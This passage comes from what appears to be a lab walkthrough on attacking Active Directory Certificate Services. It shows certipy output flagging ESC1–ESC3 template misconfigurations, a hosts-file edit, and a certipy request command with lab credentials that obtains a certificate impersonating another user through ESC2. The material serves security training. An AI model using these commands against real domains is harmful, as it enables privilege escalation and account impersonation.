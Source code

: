 ```shell-session
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Domain Users
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'LAB.LOCAL\\Domain Users' can enroll and template can be used for any purpose
      ESC3                              : 'LAB.LOCAL\\Domain Users' can enroll and template has Certificate Request Agent EKU set
```

Before abusing `ESC2`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to abuse `ESC2`, students need to use the `req` command of `certipy`, specifying the template `ESC2` for the `-template` option and the `UPN` `Matilda` for the `-upn` option; students will attain a `PFX` certificate for the `Matilda` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC2 -upn Matilda
```
